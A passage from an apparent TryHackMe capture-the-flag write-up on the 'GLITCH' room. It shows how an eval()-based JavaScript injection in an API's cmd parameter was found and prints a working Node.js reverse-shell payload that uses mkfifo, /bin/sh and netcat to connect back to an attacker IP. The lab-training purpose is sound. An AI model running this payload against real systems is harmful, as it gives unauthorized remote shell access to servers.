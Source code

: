 To test this further, I sent another POST request using:
```
curl -X POST http://10.201.10.25/api/items?cmd=test
```

The response confirmed that the `cmd` parameter is indeed vulnerable. It appears the value of `cmd` is passed directly into an `eval()` function on the server side, a major security flaw, as this allows arbitrary JavaScript code to be executed.

When I sent `cmd=test`, the server attempted to evaluate `test` as a variable or function name. Since it was undefined, a `ReferenceError` was thrown.

The behavior indicated that the API is vulnerable to Remote Code Execution (RCE) via JavaScript injection.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Red-Team/GLITCH/Images/Screenshot%2011.png)

With that in mind, I researched a command to exploit this vulnerability and found the following payload:
```
cmd=require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.69.31 47329 >/tmp/f')
```
This command sets up a reverse shell by creating a named pipe (`/tmp/f`) and using `netcat` to connect back to my machine on port `47329`. It allows me to execute a shell remotely, providing interactive access to the target system.

**Note:** Once the payload is modified, it will need to be URL encoded because it contains special characters that could otherwise be misinterpreted or blocked by the server when sent as part of the HTTP request.

I then set up a Netcat listener on port `47329`, URL encoded the payload, and attached it to a `curl` POST request, exploiting the vulnerable `?cmd=` parameter.
Submitting the POST request successfully granted me a reverse shell!

